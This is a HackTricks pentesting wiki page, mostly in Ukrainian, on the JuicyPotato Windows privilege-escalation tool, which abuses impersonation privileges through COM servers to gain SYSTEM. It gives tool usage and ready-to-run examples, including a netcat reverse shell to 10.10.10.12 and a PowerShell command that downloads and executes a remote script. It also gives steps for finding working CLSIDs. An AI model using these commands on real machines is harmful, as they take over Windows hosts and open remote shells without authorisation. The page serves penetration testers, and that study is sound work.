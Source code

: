# JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato не працює** на Windows Server 2019 та Windows 10 версії 1809 і вище. Однак, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) можуть бути використані для **отримання тих же привілеїв і доступу на рівні `NT AUTHORITY\SYSTEM`**. _**Перевірте:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (зловживання золотими привілеями) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Цукрова версія_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, з трохи соку, тобто **інший інструмент для підвищення локальних привілеїв, з облікових записів служб Windows до NT AUTHORITY\SYSTEM**_

#### Ви можете завантажити juicypotato з [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Резюме <a href="#summary" id="summary"></a>

[**З Readme juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) та його [варіанти](https://github.com/decoder-it/lonelypotato) використовують ланцюг підвищення привілеїв на основі [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [сервісу](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126), маючи MiTM слухача на `127.0.0.1:6666`, і коли у вас є привілеї `SeImpersonate` або `SeAssignPrimaryToken`. Під час огляду збірки Windows ми виявили налаштування, де `BITS` був навмисно вимкнений, а порт `6666` був зайнятий.

Ми вирішили озброїти [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Скажіть привіт Juicy Potato**.

> Для теорії дивіться [Rotten Potato - Підвищення привілеїв з облікових записів служб до SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) і слідкуйте за ланцюгом посилань і посилань.

Ми виявили, що, окрім `BITS`, є кілька COM серверів, які ми можемо зловживати. Вони просто повинні:

1. бути інстанційованими поточним користувачем, зазвичай "користувачем служби", який має привілеї імперсонації
2. реалізувати інтерфейс `IMarshal`
3. працювати як підвищений користувач (SYSTEM, Адміністратор, …)

Після деяких тестувань ми отримали та протестували розширений список [цікавих CLSID](http://ohpe.it/juicy-potato/CLSID/) на кількох версіях Windows.

### Соковиті деталі <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato дозволяє вам:

* **Цільовий CLSID** _виберіть будь-який CLSID, який ви хочете._ [_Тут_](http://ohpe.it/juicy-potato/CLSID/) _ви можете знайти список, організований за ОС._
* **COM порт прослуховування** _визначте COM порт прослуховування, який ви віддаєте перевагу (замість зашитого 6666)_
* **IP адреса прослуховування COM** _прив'яжіть сервер до будь-якої IP_
* **Режим створення процесу** _в залежності від привілеїв імперсонованого користувача ви можете вибрати з:_
* `CreateProcessWithToken` (потрібен `SeImpersonate`)
* `CreateProcessAsUser` (потрібен `SeAssignPrimaryToken`)
* `обидва`
* **Процес для запуску** _запустіть виконуваний файл або скрипт, якщо експлуатація успішна_
* **Аргумент процесу** _налаштуйте аргументи запущеного процесу_
* **Адреса RPC сервера** _для прихованого підходу ви можете аутентифікуватися на зовнішньому RPC сервері_
* **Порт RPC сервера** _корисно, якщо ви хочете аутентифікуватися на зовнішньому сервері, а брандмауер блокує порт `135`…_
* **РЕЖИМ ТЕСТУ** _в основному для тестування, тобто тестування CLSID. Він створює DCOM і виводить користувача токена. Дивіться_ [_тут для тестування_](http://ohpe.it/juicy-potato/Test/)

### Використання <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**З Readme juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Якщо у користувача є привілеї `SeImpersonate` або `SeAssignPrimaryToken`, то ви є **SYSTEM**.

Майже неможливо запобігти зловживанню всіма цими COM-серверами. Ви можете подумати про зміну дозволів цих об'єктів через `DCOMCNFG`, але удачі, це буде складно.

Фактичне рішення полягає в захисті чутливих облікових записів та програм, які працюють під обліковими записами `* SERVICE`. Зупинка `DCOM` безумовно завадить цій експлуатації, але може мати серйозний вплив на основну ОС.

З: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Відвідайте [цю сторінку](https://ohpe.it/juicy-potato/CLSID/) для списку CLSID, які можна спробувати.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Запустіть новий CMD (якщо у вас є доступ до RDP)

![](<../../.gitbook/assets/image (300).png>)

## Проблеми з CLSID

Часто стандартний CLSID, який використовує JuicyPotato, **не працює** і експлойт зазнає невдачі. Зазвичай, потрібно кілька спроб, щоб знайти **працюючий CLSID**. Щоб отримати список CLSID для конкретної операційної системи, вам слід відвідати цю сторінку:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Перевірка CLSID**

Спочатку вам знадобляться деякі виконувані файли, окрім juicypotato.exe.

Завантажте [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) і завантажте його у вашу PS сесію, а також завантажте та виконайте [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Цей скрипт створить список можливих CLSID для тестування.

Потім завантажте [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) (змініть шлях до списку CLSID та до виконуваного файлу juicypotato) і виконайте його. Він почне пробувати кожен CLSID, і **коли номер порту зміниться, це означатиме, що CLSID спрацював**.

**Перевірте** працюючі CLSID **за допомогою параметра -c**

## Посилання

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
